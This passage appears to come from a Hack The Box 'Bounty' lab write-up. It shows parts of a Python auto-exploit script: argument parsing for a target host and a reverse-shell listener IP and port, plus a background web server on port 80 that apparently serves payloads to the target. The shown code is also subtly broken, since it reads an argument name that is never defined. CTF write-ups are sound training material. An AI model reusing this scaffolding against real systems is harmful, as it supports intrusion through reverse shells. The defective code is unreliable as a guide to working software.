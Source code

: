 ```py
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-08-31-HackTheBox-Bounty/2021-08-31-HackTheBox-Bounty%2012:30:10.png)

```py
#!/usr/bin/python3
# Date: 2021-08-31
# Exploit Author: 0x4rt3mis
# Hack The Box - Bounty

import argparse
import requests
import sys
import os
import socket, telnetlib
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
```
